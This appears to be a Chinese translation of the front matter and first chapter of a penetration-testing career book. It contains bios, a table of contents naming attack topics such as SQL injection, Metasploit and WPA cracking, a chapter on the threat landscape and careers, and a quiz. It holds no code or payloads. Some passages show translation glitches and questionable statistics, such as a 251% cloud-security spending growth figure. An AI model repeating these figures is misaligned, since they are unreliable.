# 求职者的渗透测试：使用 Kali Linux、Burp Suite、MobSF 和 Metasploit 对 Web 应用、网络和移动设备进行道德黑客攻击（英文版）




## 献给

我亲爱的父母：

Dilip Kumar Mandal 先生

Mira Mandal 女士

## 关于作者

Debashish Mandal 是一位信息安全专业人士，在渗透测试、红队、漏洞和利用研究方面拥有 10 年以上的经验。他的主要专业领域是应用安全、网络安全、漏洞研究以及逆向工程。在职业生涯中，Debashish 为开发各种防御性安全解决方案发布了多项专利。作为一名开源爱好者，他编写并贡献了多个与网络安全相关的开源项目。过去，Debashish 曾在 BlackHat Europe 简报会、Brucon 和 SigSegV 等多个国际安全会议上展示过关于各种防御和攻击性安全主题的研究成果。Debashish 曾发现多处安全漏洞，并为微软、Google、Facebook、Twitter、Apple 等流行且广泛部署的产品发布了安全公告。

### 关于审稿人

**Haifa Yu** 在 ICT 行业的多个领域拥有丰富的工作经验，包括 Linux 系统工程、Linux 发行版开发、Web 开发、安全服务、SOC 产品管理、安全运营和云安全。他曾参与过世界 500 强公司的各种安全解决方案和项目。他目前的重点是云安全、DevSecOps、大数据安全、安全合规和云应用安全。

他在上海交通大学获得计算机技术硕士学位，主方向为信息安全。他还拥有多项 IT 认证，包括 CISSP、CISA、ISO 27001 LA、GWEB、GCIH、AWS 认证解决方案架构师 – 专业级、AWS 认证 DevOps 工程师 – 专业级、AWS 认证安全 专家、AWS 认证高级网络 专家等。

他与妻子李娜和女儿 Melody 住在中国上海。在空闲时间，他喜欢研究安全应用并探索安全技术的最新趋势。

**Pranav Joshi** 是一位独立的网络安全顾问，拥有超过 20 年的经验，在银行、金融、国家证券交易所、保险、能源、石化、零售、媒体、广告、电子商务、IT & ITES、政府和国防等不同业务领域领导并交付大规模信息和网络安全项目，其中包括世界 100 强公司。

在之前的标准银行任期间，他监督并管理了涵盖 65 个国家的全球安全测试工作，切实改善了银行的安全状况并减少了与合规相关的问题。

他因发现许多流行企业产品中的多个已披露和未披露漏洞而闻名，这些漏洞已由领先的网络安全公司、专业机构和政府机构发布，例如 IBM Xforce、SecurityFocus、ExploitDB、美国商务部国家漏洞数据库（NVD）以及美国国土安全部网络与基础设施安全局（CISA）。

## 致谢

我想感谢几位在本书撰写期间向我提供持续和不断支持的人。首先，我要感谢我的家人，包括我的父母和姐妹们，特别是 Dipsikha，她们不断鼓励我写完这本书——如果没有她们的支持，我永远无法完成这本书。

我还要感谢本书的所有技术审稿人提供的提供的宝贵意见。我诚挚感谢 Somnath Guha Neogi 先生提供的技术建议。他们的宝贵投入帮助我提升了内容的整体质量。我还要感谢 BPB Publications 的整个团队，他们提供了足够的支持，给我充足的时间完成这本书。

## 前言

COVID-19 疫情迫使我们所有人拥抱完全新的文化，例如社交距离和远程办公。随着越来越多的组织转到远程办公模式，任何组织面临的网络威胁也随之增加。这就是为什么 2021-22 年对网络安全专业人员的需求呈指数级增长的原因。由于现有网络安全专业人员与每天面临的安全问题之间存在巨大缺口，全球范围内对网络安全专业人员的需求非常大。网络安全领域有多种工作类型，但渗透测试”（即伦理黑客）是最受欢迎且最令人兴奋的工作之一。

通过学习本书，你应该对网络安全大环境特别是渗透测试有更好的理解。本书为渗透测试学习者采取了实用方法，涵盖了若干计算机和网络基础。然后，深入探讨渗透测试方法。本书从网络安全职业路径和前景开始，然后介绍了渗透测试及其在现代行业中的重要性。它分为 10 章，涵盖了渗透测试的许多方面，包括 Web 应用、网络、Android 应用、无线渗透测试和报告准备。本书还展示了潜在的渗透测试人员如何从零建立内部渗透测试实验室以练他们的黑客技能。这本书对于希望开始渗透测试职业的人，或在渗透测试/网络安全领域拥有 1-2 年经验并希望在不同领域提升技能的人来说，是一个完美的起点。

第一章将介绍网络安全的重要性和当前的网络安全威胁格局。如果你想在网络安全领域发展，本章将帮助你了解网络安全职业机会、角色、职责和明确的职业路径。

我们从丰富的书籍和视频目录中提供了代码包，访问地址为 `https://github.com/bpbpublications`。欢迎去查看！

## 如果您有成为作者

如果您在某个领域专业，并且对写作或贡献书籍感兴趣，请访问 `www.bpbononline.com`。我们已经与成千上万读者合作过。

如果您阅读并使用了这本书，为什么不留个评论呢？有关更多关于 BPB 的信息，请访问 `www.bpbononline.com`。

- 目标
- 3. 为您的渗透测试搭建实验室

## 4. Web 应用与 API 渗透测试

- 引言
- 结构
- 目标
- Web 应用程序简介
- 标准 Web 应用程序架构
- 关于 HTTP 协议的一些重要概念
  - HTTP 会话管理
  - 同源安全策略
  - 认证与授权
    - 授权
- 不同类型的 Web 应用漏洞
- 开放 Web 应用安全项目 (OWASP) 与 OWASP Top 10
- DVWA 简介
- SQL 注入
- 基于报错的 SQL 注入
- SQL 注入速查表
  - 防止 SQL 注入的主要防御
  - 跨站脚本 (XSS)
  - XSS 的类型
  - 基于 DOM 的 XSS
  - XSS 速查表
- 停止 XSS 攻击
- 安全配置错误
  - 发现通过配置错误暴露的敏感信息
- DVWA 启用 Apache server-info
- DVWA SVN 仓库暴露
- DVWA Apache 服务状态泄露
- DVWA 目录列出漏洞
- 服务端请求伪造 (SSRF)
  - SSRF 示例

## SSRF 缓解措施

服务端请求伪造 (SSRF) 对比跨站请求伪造 (CSRF)

### CSRF 缓解措施

不安全设计
- 命令执行
- 无限制文件上传-直接
- 不安全直接对象级别引用 (IDOR)
- 不安全的文件包含 (LFI 和 RFI)
- 不安全设计的缓解措施
- 存在漏洞且过时的组件
  - DVWA 中过时的 Web 服务器
  - 针对存在漏洞且过时组件的缓解措施
- 密码学失效
  - DVWA 不安全传输
  - DVWA 中使用的不安全哈希机制
- 身份识别与认证失效
  - 对 DVWA 的暴力破解攻击
  - DVWA 中会话过期时间不足
- 破坏的访问控制
  - 示例 1：应用程序未能验证用户提供的数据
  - 示例 2：攻击者强制客户端访问目标 URL
- 软件和数据完整性失效
- 安全日志与监控失效
- 防止安全日志与监控失效
- API 简介
- 使用 Burp Repeater 与 Web API 交互
- 最常见的 API 安全问题
- 注入
- 破坏的对象级别授权
- 防止破坏的对象级别授权
- 破坏的用户认证
  - JSON Web Token (JWT) 简要介绍
  - 防止破坏的用户认证
- 资源缺失和速率限制
  - 防止资源缺失和速率限制的缓解措施

## 结论

## 核心要点

- 多选择题
- 答案
- 常见面试题

## 5. 安全源码审计的艺术

- 引言
- 结构
- 目标
- 安全源码审计简介
- 手动安全源码审计
- 自动化安全源码审计
- 自动化源码审计评估的不同阶段
- 自动化源码审计工具
- 自动化源码审计对比手动源码审计
- 不同漏洞的示例
- DVWA 跨站脚本（XSS）漏洞
- DVWA 存储型跨站脚本漏洞
- DVWA SQL 注入漏洞
- DVWA 盲注漏洞
- DVWA 文件上传漏洞
- DVWA 文件包含
- 结论
- 注意事项
- 问题

## 6. Android 移动应用渗透测试

- 引言
- 结构
- 目标
- Android 应用渗透测试阶段
- 故意不安全且脆弱的 Android 应用 (PIVAA) 简介
- 截获 PIVAA 流量
- 自动化 Android 移动应用扫描
- 移动安全框架 (MobSF)


# 在 Kali/Linux 上安装移动安全框架 (MobSF)

## 安装 MobSF

## 运行 MobSF

使用 MobSF 对 PIVAA 进行扫描

## OWASP 与移动安全

## Android 平台上的移动特定攻击

### 不安全的数据存储漏洞

- 不安全数据存储的严重性
- 不安全数据存储的攻击向量
- 在 PIVAA 中验证不安全的数据存储漏洞
- 不安全数据存储的缓解策略

### 不当的平台使用漏洞

- 不当平台使用漏洞的严重性
- 不当平台使用的攻击向量
- 在 PIVAA 中验证不当的平台使用漏洞
- 不当平台使用的缓解策略

### 不安全的通信漏洞

- 不安全通信的严重性
- 不安全通信的攻击向量
- 在 PIVAA 中验证不安全通信
- 不安全通信的缓解策略

### 密码学不足漏洞

- 密码学不足的严重性
- 密码学不足的攻击向量
- 在 PIVAA 中验证密码学不足
- 密码学不足的缓解策略

### 客户端代码质量漏洞

- 客户端代码质量漏洞的严重性
- 客户端代码质量漏洞的攻击向量
- 在 PIVAA 中验证客户端代码质量相关问题
- 客户端代码质量的缓解策略

### 代码篡改漏洞

- 代码篡改漏洞的严重性
- 代码篡改的攻击向量
- 代码篡改的缓解策略

### 逆向工程漏洞

- 逆向工程漏洞的严重性
- 逆向工程的攻击向量

#### 逆向工程的缓解策略

#### 多余功能漏洞

- 多余功能漏洞的严重性
- 多余功能漏洞的攻击向量
- 在 PIVAA 中验证多余功能
- 多余功能漏洞的缓解策略

#### 不安全的认证漏洞

- 不安全认证漏洞的严重性
- 不安全认证的攻击向量
- 不安全认证漏洞的缓解策略

#### 不安全的授权漏洞

- 不安全授权的严重性
- 不安全授权的攻击向量
- 不安全授权的缓解策略

#### Android 基础逆向工程

- SSL 锁定
- 使用 Frida 绕过 SSL 锁定

## 结论

- 注意事项
- 多选择题
- 答案
- 问题

# 7. 网络渗透测试

- 引言
- 结构
- 目标
- 网络漏洞评估对比渗透测试
- 网络渗透测试的类型
- 外部渗透测试对比内部渗透测试
- 安全测试对比危险测试
- 网络渗透测试的不同阶段

### 足迹收集与侦察

- 足迹收集的类型
- 匿名/被动足迹
- 主动足迹
- 网络渗透测试中的目标

#### 足迹收集方法

- 通过 WHOIS 足迹
- Kali WHOIS 查找
- 提供 Whois 信息的网站
- 使用 Nmap 工具足迹
- 使用 Shodan 足迹
- 通过 DNS 足迹
- DNS 的作用？
- 在 Kali 上利用 host 命令
- 使用 NSLOOKUP 进行足迹
- 通过搜索引擎进行足迹
- 谷歌黑客数据库 (GHDB)

## 网络扫描

- 网络通信
- 使用 Nmap 扫描
- TCP SYN（隐蔽）扫描 (-sS)
- TCP 连接扫描
- 使用 Nmap 扫描 IP 段
- 使用 Nmap 扫描端口范围
- UDP 端口扫描 (-sU)
- 使用 HPING 工具扫描
- 作为端口扫描器的 HPING
- 使用 TCP 标志产生数据包

### 枚举

- 使用 Nmap 进行服务枚举
- 操作系统指纹
- 漏洞分析
- 漏洞评估
- 漏洞评估的种类
- 通用漏洞评分系统 (CVSS)
- 常见漏洞披露 (CVE)
- 漏洞扫描
- Nessus 漏洞扫描器

## 漏洞利用

- Metasploit 框架简介
- 权限提升
- 深入了解你正在工作的系统
- 发现正确的漏洞
- 将漏洞上传到目标机器
- 使用 Metasploit 框架内置的本地漏洞进行提权
- 横向移动

## 结论

- 注意事项
- 多选择题
- 答案
- 问题

# 8. 无线渗透测试

- 引言
- 结构
- 目标
- Wi-Fi 网络基础知识
- IEEE 802.11 标准
- Wi-Fi 安全协议
- 理解访问点与客户端的通信方式
- 探针
- 认证
- 关联
- 无线实验室搭建
- 硬件要求
- 测试一切运行正常
- 嗅探无线包的艺术
- 无线模式（管理模式和监听模式）
- 嗅探无线包
- 数据包注入
- 嗅探目标 Wi-Fi 网络的数据包
- 使用 airodump-ng 嗅探特定目标
- 针对无线网络的常见攻击
- MAC 伪造攻击
- 防止 MAC 伪造
- 破解隐藏 SSID 的攻击
- 针对 WEP 加密的攻击

## 破解 WPA/WPA2 (弱密码)

- 防止针对 WPA/WPA2 的密码攻击
- 恶意接入点攻击
- 防止恶意接入点攻击
- 结论
- 关键点
- 问题

# 9. 报告准备与文档编制

## 引言

### 结构

### 目标

### 合规性与监管标准

- ISO 27001
- 通用数据保护条例 (GDPR)
- PCI DSS
- NHS 数据安全与保护工具包
- 印度储备银行 (RBI) 网络安全指南
- 印度计算机应急响应小组 (CERT-IN 或 ICERT) 网络安全指南

## 如何编写一份高效的渗透测试报告

- 执行摘要
- 发现的安全漏洞详情
- 业务影响的详尽分析
- 对可利用性的见解
- 技术风险简报
- 修复建议

PeTeReport – 一款开源应用程序漏洞报告工具

## 结论

- 需要记住的点
- 问题

# 10. 渗透测试员的一天

## 引言

### 结构

### 目标

### 渗透测试员的典型一天

- 常见的日常挑战
- 法律挑战
  - 满足客户预期
  - 范围内或范围外工作
  - 健康与工作生活的平衡
- 保持像黑客一样解决问题的思维
- 有效沟通能力的重要性
- 日常精进你的技能
  - 自学
  - 认证
  - 互联网上的免费课程
  - 参与漏洞赏金 (Bug Bounty)
  - 通过 CTF 竞赛进行竞争性学习
  - 馈回社区
- 免费的安全项目、实验室等

## 结论

- 需要记住的点

# 第一章

## 网络安全、职业道路与前景

现代技术影响了 21 世纪生活的几乎每一个方面。技术是推动每个社会发展的主要驱动因素之一。如今，社会与技术之间存在循环相互依赖关系。人们利用技术进行旅行、交流、学习、经商以及享受舒适。技术让我们的生活变得简单。

技术越发展，个人获得的益处就越多，经历的弊端也越多。坏分子（例如黑客、诈骗者和欺诈者）正在利用这些技术的进步来伤害技术终端用户。技术为我们的生活带来的主要诅咒包括破解、间谍、欺诈和身份盗用。破解通常是指盗取他人的敏感数据并干扰隐私。大多数时候，此类事件会对个人生活造成巨大损失。盗用个人身份还会导致许多金钱损失。由于对技术的过度依赖，隐私如今有时被认为是一个神话。

### 结构

我们本章将涵盖以下主题：

- 介绍网络安全
- 20 年代的网络威胁格局
- 网络安全的重要性
- COVID-19 对网络安全的影响
- 网络安全领域的职业范畴
- 全球网络安全人才和技能短缺
- 在网络安全领域工作
- 网络安全专业人员的职业道路
- 从通用 IT 向网络安全的转型
- 印度网络安全的工作与薪资
- 理想的网络安全（黑客）心态

### 目标

学习本章后，你将对网络安全的重要性和当前的网络安全威胁格局有更好的理解。如果你想在网络安全领域追求职业，本章将帮助你理解网络安全的职业机会、角色、职责以及明确的职业道路。

## 介绍网络安全

随着技术创新，信息安全已变得至关重要。信息安全的基本原则是确保信息的机密性 (Confidentiality)、完整性 (Integrity) 和可用性 (Availability)。网络安全和信息安全的术语通用，因为两者都负责保护和防御计算机系统免受坏分子侵害。

## 网络安全

Cyber 是一个前缀，代表与信息技术的任何关系。任何与计算机相关的物品，如互联网，都属于网络类别。网络安全是保护计算机系统、服务器、智能手机、电子系统、网络以及数据免受坏分子侵害的实践。它也被称为信息安全或数字信息安全。

## 20 年代的网络威胁格局

国际网络风险继续以极快的速度演变，每年数据泄露事件增加。一家名为 RiskBased Security 的公司报告显示，仅在 2019 年前 9 个月，数据泄露就暴露了惊人的 79 亿份文件。这一数字是 2018 年同期的倍多。这些数据清楚地显示了网络攻击的增长趋势。

医疗服务、零售商以及公共实体遭受的有害网络犯罪分子攻击最多。这些领域中的几个对网络犯罪分子来说更有吸引力，因为他们收集金钱和医疗数据，但所有使用网络的组织都可能成为消费者信息和商业侦察的目标目标。

随着网络威胁范围的增加，国际数据公司预计，全球网络安全领域的支出到 2022 年无疑将达到 1337 亿美元的巨额。

## 网络威胁分类


# 网络风险概述

2002 年，Roger A. Grimes —— 一位数据驱动防御倡导者提供了一份遇到过的最棘网络风险列表。该列表在《InfoWorld》杂志上发布。其中提到的某些威胁包括高级持续性威胁 (APT)、钓鱼、社交工程木马、未修补的软件和网络传播蠕虫。

从此以后，各种改变规则的科技得到了广泛培养。其中，云计算和大数据值得关注。此外，移动设备使用量的增加给信息技术格局带来了巨大变化。

如今的网络犯罪格局各不相同，网络风险通常包括以下几种类型的攻击：

- **高级持续性威胁：** 高级持续性威胁是一种狡猾的威胁者；通常是国家级或国家支持的团体，他们未经许可访问网络并在长时间内保持不被发现。
- **勒索软件：** 勒索软件是一种勒索病毒，除非支付赎金，否则它将威胁发布目标的个人数据或永久阻止访问。
- **僵尸网络：** 僵尸网络是由僵尸控制的受恶意软件感染的计算机网络。
- **钓鱼：** 钓鱼是一种社交工程，攻击者发送欺骗性信息以诱人类目标披露敏感信息。
- **木马/间谍软件/恶意软件：** 用于监控、窃取信息和操纵数据的有害软件。
- **隐蔽挖矿恶意软件：** 加密货币挖掘软件通常是一种隐蔽恶意软件，利用系统（计算机、智能设备和其他连接互联网的电子设备）的资源为监管它的网络犯罪分子盈利。
- **零日威胁：** 零日威胁是指以前未见且不符合任何已知恶意软件特征的威胁。
- **恶意广告：** 恶意广告是攻击者在合法网络网络注入有害代码的攻击。
- **恶意软件：** 恶意安全软件是一种破坏性软件和网络欺诈，误导用户认为其计算机系统已感染。
- **DoS 和 DDoS 攻击：** 拒绝服务 (DoS) 和分布式拒绝服务 (DDoS) 攻击是旨在关闭机器或网络并使其无法访问的攻击。
- **中间人攻击 (MITM)：** 中间人攻击 (MITM) 是一种基本术语，指罪分子让自己置于用户和应用程序之间，进行窃听或冒充其中一方。
- **挂路下载：** 挂路下载通常在互联网用户不知情的情况下发生，最终下载的项目会执行有害活动。
- **资金盗窃/知识产权盗窃：** 这些是为了盗取金钱或知识产权而进行的网络攻击。

## 网络安全的重要性

网络攻击影响所有人，而且目前非常普遍。目前的报告显示，每 39 秒就有黑客尝试攻击一台计算机！一旦发生发生，许多终端用户可能受到影响。

亚特兰大市曾受到著名的 SamSam 勒索软件攻击。攻击者索要 5.1 万美元赎金。SamSam 勒索软件非常危险，以至于亚特兰市曾离线了 5 天。这导致多项重要的全市程序中断，恢复费用最终达到了 1700 万美元。

社交媒体巨头 Facebook 因一次恶意网络攻击，导致超过 5.4 亿条个人记录暴露。互联网巨头 Yahoo 遭受了影响其 30 亿客户账户的泄露，黑客的直接费用约为 3.5 亿美元。

网络安全之所以重要，因为它包含了所有与保护敏感信息、个人身份信息（PII）详情、个人信息以及政府和市场信息相关的领域。

## COVID-19 对网络安全的影响

COVID-19 疫情迫使组织和个人接受社交距离和远程办公等新方法。各国政府正在重新评估方法，通过建立和实施新的经济政策来确保其国家的安全。尽管如此，当全球关注于 COVID-19 带来的健康和经济灾难时，全球的网络犯罪分子确实从这种情况下获利。

那么，COVID-19 是如何影响技术部门的？COVID-19 还驱动了全球劳动力向远程办公的意想不到且巨大的转变。组织发现自己对随着远程劳动力增加而来的安全影响未做好准备。这导致了对第三方供应商的依赖增加，例如用于数据共享和托管的云供应商、用于确保顺畅访问的 VPN 供应商等。

整个市场实际上观察到钓鱼尝试、恶意邮件（MalSpams）和勒索软件攻击的激增，因为坏分子正在利用 COVID-19 来诱导员工和客户。这些可能导致更多计算机系统和移动设备被感染。不仅服务成为攻击目标，下载 COVID-19 相关应用程序的终端用户也被欺骗下载了伪装成合法应用程序的勒索软件。

犯罪分子利用了疫情以及随之来的所有变化。安全服务提供商 McAfee Inc 发布了一份报告，指出 COVID-19 期间，他们平均每分钟注意到 419 次威胁。新的 PowerShell 恶意软件激增了 117%。McAfee 还发布了一份信息图（https://www.mcafee.com/enterprise/en-us/lp/covid-19-dashboard.html），清晰显示了 COVID-19 恶意检测的上升（2020 年 4 月至 5 月）。

## COVID-19 使网络威胁格局发生转型

COVID-19 对 IT 及其网络安全行业产生了重大影响。许多组织已经重新设计了他们的网络安全基础设施以应对现状。冠状病毒完全改变网络威胁格局的原因有几点。

### 远程操作的影响

随着许多员工在家里工作，VPN 服务现在成为公司的救命稻草。这就是为什么它们的安全性在未来至关重要。在为了实现这一目标的建议中，组织的准备不足可能会导致远程访问服务中的保护措施配置错误。这种配置错误可能会在互联网上暴露敏感细节，并使系统面临拒绝服务（DoS）攻击。某些用户可能会使用个人电脑完成正式职责，这可能会给组织带来危险。

### 对公司资产物理安全的影响

某些公司执行的居家办公政策无意中使计算机、身份验证设备等公司资产暴露于盗窃或损坏之中。

### 全球裁员的影响

在全球范围内，公司正在缩减人员以应对 COVID-19 的影响。2020 年 5 月初，失业金领取人数增至 320 万。由于各种限制，一些人还失去了收入来源。这种趋势可能会促使网络犯罪的增长，因为因 COVID-19 失去工作的具有计算机知识的个人可能会看到从这场疫情中谋生的机会。

## 网络安全的职业范围

随着网络攻击的多样性增加，组织正逐渐意识到威胁格局，并寻求合格的专家加入其团队。因此，许多人正在寻求网络安全课程以帮助公司提高安全性。

## 全球网络安全人才和技能短缺

除了对网络安全专业人员的需求增加外，市场还面临着熟练应对日益增长的网络安全职责的培训人员严重短缺。根据 NASSCOM 2019 年的一份报告，印度到 2020 年将需要约 100 万专家。

2019 年初，Gartner 预测预测，到 2019 年底，国际范围内将缺少 200 万名网络安全专业人员。美国对网络安全专业人员的需求增长了 65%，英国的增量超过了 5%。

## COVID-19 更加强调了对网络安全专业人员的需求

随着 COVID-19 情况在国际蔓延，网络攻击也随之蔓延。远程办公和在线购物等虚拟活动的兴起已使业务网络和热门互联网成为网络犯罪的温床。这就是为什么 COVID-19 疫情后全球网络安全专业人员的大规模短缺加。

战略与国际研究中心（CSIS）于 2019 年 1 月发布了一份报告，预计到 2022 年全球网络安全人才缺口将达到 180 万个空缺职位。COVID-19 疫情后，这一预测数字高得多。Gartner 发布了一份报告，预计组织将在 2021 年增加整个安全和风险管理所有部分的成本。延续 2015 年的趋势，云安全和综合风险管理在 2021 年将经历最高增长，分别为 251% 和 27.8%。您可以在 https://www.gartner.com/en/newsroom/press-releases/2021-03-17-india-security-management-spending 找到更多关于预测的细节。

## 在网络安全领域工作

进入网络安全没有唯一的路径。人们来自物理、数学、电气、电子、计算机等背景。所有人的共同特质是对技术工作原理的深层且持久的热爱。对于任何安全专家来说，这一特质都至关重要。你需要确切知道你正在保护什么以及它是如何工作的。要成为所有领域的专家很困难，因此建议你专注于一个领域并深入了解。在下一节中，我们将深入探讨不同的子领域。

## 类型与职责

当你决定在网络安全领域追求职业时，脑海中可能会出现的问题包括：你有哪些领域可以探索？网络安全课程有很多种类。这里讨论了你作为安全专家可以的一些职位。

- 安全专家：安全专家的主要角色是保护应用程序软件和网络。安全专家的任务包括审计内外部安全以及进行漏洞测试、风险评估和安全评估。
- 事件响应人员：事件响应人员是公司的资产，大多数接受过网络安全事件响应培训。他们的职责是快速解决安全问题并采取必要措施防止此类攻击。
- 安全分析师：安全分析师的培训主要指导如何通过评估安全计划和程序来保护数字资产。作为安全分析师，你的日常工作是发现组织基础设施的弱点并寻找新的保护方法。他们的工作还包括规划、执行和更新安全措施和控制。
- 安全管理员：安全管理员了解安全系统并对其进行维护，以确保其稳定地运行。
- 安全经理：如其名所示，安全经理是一位经验丰富的专业人士，识别组织的安全系统并向其他员工分配资源和权力。
- 安全审计员：和其他任何审计员一样，安全审计员的角色是检查业务安全系统以免受网络犯罪分侵害。这些专家必须完成安全审计培训以了解其职责。
- 取证专家

从事网络安全法医专业人员工作需要评估违规行为的根源，以准确识别其发生方式以及执行该行为的主体。这一角色要求你在处理证据时必须小心，并要求教育第一响应人员如何处理计算机、硬盘或便携驱动器等数字证据。

## 渗透测试员


渗透测试员也被称为伦理黑客，他们试图入侵组织的网络系统以分析其安全系统的防御强度，而不是窃取数据。他们主要负责测试、寻找以及维护组织与计算机系统相关的安全漏洞。

## 安全工程师

安全工程师通过识别可能的安全漏洞来保护计算机系统和网络系统免受攻击。安全工程师的主要职责是监控和记录对多供应商安全解决方案的分析。凭借了大量的网络安全培训课程，安全工程师理解公司典型的安全漏洞和缓解技术。

## 安全研究员（恶意软件/漏洞分析师）

安全研究员剖析恶意软件，以查看破坏性软件程序正在利用哪些漏洞，并从恶意软件及其结构中积累知识。他们利用这些信息根据其部署的方法来追踪对手和团体。

## 网络安全专业人士的职业路径

到目前为止，我们已经介绍了网络安全领域的的一些子领域及其预期。成为某个领域的专家需要恰当的计划和大量的工作，但这绝对是值得的。

对于初学者来说，你可以获得与网络安全相关的领域的学士学位，但这并不是开启网络安全职业的灵丹妙药。学士学位可能包括计算机系统工程、计算机科学工程、信息安全和应用工程。

可选的是，潜在的网络安全工程师可以通过获得硕士学位来继续他们的教育，专注于与网络安全密切相关的领域。值得提到的是，有很多例外。你可能会发现该领域有许多杰出的安全专业人士，他们从未上过任何正式的网络安全学位课程，但在社区中受到高度重视和尊重。

如果你正尝试获得资质，有丰富的资源可以利用。有各种合适的证书供你尝试。在需要考虑的证书中包括 `CEH`、`OSCP` 和 `CISP`。

## 从通用 IT 转型网络安全

由于网络安全领域的要求日益增加，许多人正试图将职业从通用 IT 转向网络安全。对于愿意转型到网络安全的 IT 工程师，他们预期几项技能。

如果你具有技术背景，你的核心技能就是你已经通过技术背景所拥有的技能，如编程、网络、系统/网络设置、网络协议知识等。

除此之外，候选人可以通过自学来完善他们的专业知识。自学方案建议候选人需要自己发现事物。第一步是获取正确的资源。可以阅读 IT 以及安全博客网站、信息或杂志，以完善计算机知识并学习编写代码。候选人可以参加上一节提到的任何入门级证书课程，并在兼职的同时追求。最后，建议候选人加入分享适当信息的在线论坛，如 LinkedIn 群组、discord 群组或专家网络。在大学期间与小组合作网络安全项目，或与同伴参加旗赛也会非常有帮助。

## 印度网络安全工作与薪资

根据 Gartner, Inc. 的最新预测，由于应对疫情而转向远程办公暴露了公司，2021 年印度的企业信息安全和威胁管理成本总计达到 28 亿美元，比 2020 年增加了 9.5%。

尽管拥有世界上最丰富的 IT 人才储备之一，但如今印度缺乏合格的网络安全专业人士。这种严重的短缺导致公司愿意为网络安全专家提供有竞争力的薪酬：

- 初级网络安全工程师的年薪约为 80 万卢比。
- 初级网络安全分析师的年薪约为 50 万至 60 万卢比。
- 安全架构师的年薪约为 170 万至 220 万卢比。
- 网络安全经理的年薪为 120 万卢比。
- 初级 CISO（首席安全官）的年薪从 220 万卢比起。
- 初级伦理黑客的年薪约为 50 万至 60 万卢比。

数据来源如下：

https://www.upgrad.com/blog/cyber-security-salary-in-india/

## 理想的网络安全（黑客）心态

当涉及到从事挑战性工作时，心态决定一切。你必须记住，你正在保护公司资产/信息免受黑客侵害，因此在很多情况下，你必须像他们一样思考。黑客和工程师之间最显著的区别在于处理障碍的方式。工程师是系统性的。问题首先被明确和评估，制定计划（或假设），并对假设进行测试。然后根据成功和失败评估结果，并得出结论。

虽然工程师很有组织性，但黑客在方法上是务实且链反应驱动的。虽然有相似之处，但核心区别在于，黑客为了实现目标极可能会采取任何手段。

一个完美的网络安全候选人兼具技术技能和软技能。在技术方面，大多数雇主都希望看到你扎根于 IT 原的证据；例如，网络、系统管理、数据源监控、互联网应用等。你还被要求精通日常操作，如物理安全、网络、Web 服务器设备、业务存储空间和应用程序。

在这一领域工作时，软技能同样重要，就像任何其他技术领域一样。候选人必须学会与非 IT 同事交流，并在小组中运作。他们必须理解业务程序和流程，最后但同样重要的是，他们应该热爱复杂的问题。

## 结论

我们希望这一章能为你的疑问提供一些明确的答案，例如为什么网络安全很重要、在如今成为一名网络安全专业人士需要什么，以及为什么在 2022 年追求网络安全职业。正如书名所示，其余内容将关于渗透测试（伦理黑客）。伦理黑客无非是创新解决问题的艺术，无论这意味着为困难的问题发现独特的解决方案，还是利用粗糙编程中的漏洞。渗透测试员的生活充满挑战，当你遇到任何挑战时，你应该以永不放弃的态度面对，而不是逃避。对于渗透测试员来说，家庭实验室是必不可少的。

在这一章中，我们将回顾与渗透测试相关的基本术语以及不同类型的渗透测试、方法论和手段。我们还将简要讨论网络安全的基础模块以及它如何帮助你成为一名优秀的渗透测试员。这将确保你已经做好了充分的准备。在进入主主题之前的最后说明是，这不会非常容易，但绝对值得。

现在是进入网络安全领域没有比这更合适的时候了。

- 嗯，网络安全之所以令人着迷，是因为它是一个高度不可预测且不断发展的领域。与网络安全领域相关的流程、假设和策略需要不断更新，因为你需要领先网络犯罪分子一步，并从你的视角来看待问题。
- 记住，你必须始终关注系统和网络中的众多安全问题、权限控制和漏洞。为了这一点，你需要精通现代技术和行业当前的时事，这样你才能保持在作坏者之前。因此，你将需要经常分析和调查最新的安全事件（例如，泄露、数据外泄、高明攻击技术、漏洞暴露等），这无疑会让你忙碌异常。
- 如果你能记住这些点，我们坚信你永远不会感到疲惫。你总会发现自己处于处理你已经熟悉的事情中，或者你正在阅读以保持与时接轨。
- 1. 网络安全主要涉及以下的哪项？

  A. 人员

  B. 流程

  C. 技术

  D. 以上所有
- 2. 备份本地文件可以保护你的数据免受勒索软件攻击的损失。这是正确的还是错误的？

  A. 正确

  B. 错误
- 3. 网络安全涵盖了以下哪项的完整范围？

  A. 减少漏洞

  B. 事件响应

  C. 恢复策略

  D. 以上所有
- 4. 网络安全是对以下哪些内容的保护？

  A. 连接互联网的系统

  B. 未连接互联网的系统

  C. A 和 B 

  D. 以上都不是
- 5. 下列哪项是网络安全原则之一？

  A. 维护机密性

  B. 保护数据的完整性

  C. 提高授权用户对数据的可用性

  D. 以上所有
- 6. 到 2022 年，全球网络安全支出将增加到多少？

  A. 1 亿美元

  B. 1330 亿美元

  C. 3500 亿美元

  D. 100 亿美元
- 1. D
- 2. A
- 3. D
- 4. A
- 5. D
- 6. B

以下是一些你在工作面试中可能会经常遇到的相关问题：

- 1. 定义网络安全。
- 2. 网络安全的三个核心原则是什么？
- 3. 为什么你喜欢在网络安全领域工作？
- 4. 你最近遇到过哪些重大的网络攻击？你从中学习到了什么？
- 5. 威胁（threat）、漏洞（vulnerability）和风险（risk）之间的区别是什么？
- 6. 什么是网络安全风险评估？
- 7. 列出常见的网络安全攻击类型。
- 8. 你如何理解网络安全的合规性？
- 9. 什么是系统加固？
- `Pen test`：渗透测试
- `Vulnerability`（漏洞）：系统安全程序、设计、实现或内部控制中的缺陷或弱点，这些缺陷可能被利用（意外引起或蓄意操纵），并导致安全违规或违反系统的安全策略。
- `Exploit`（利用程序）：利用程序是利用软件应用程序漏洞或安全缺陷的代码。

# 第 2 章

# 渗透测试简介

## 引言

COVID-19 疫情正迫使越来越多的公司转向远程办公，因此任何公司的网络风险也随之增加。由于这个原因，2021-2022 年对安全专员的需求大幅增长。渗透测试也称为伦理黑客攻击，是网络安全市场中最有趣的工作之一。渗透测试（简称 pentest）是针对组织（例如其网站、网络、软件等）进行的模拟网络攻击，旨在寻找可被利用的漏洞。通过定期的渗透测试，公司可以获得安全专家对其整体安全态势和日常操作流程的反馈。尽管渗透测试通常很耗时且昂贵，但它可以帮助防止极具成本且具有破坏性的安全违规。

### 结构

- 黑客与网络安全
- 网络安全的要素
- 网络安全原则
- 渗透测试导论
- 渗透测试的重要性
- 渗透测试执行标准 (PTES)
- 渗透测试的类型
- 如何成为渗透测试员
- 渗透测试的局限性

### 目标

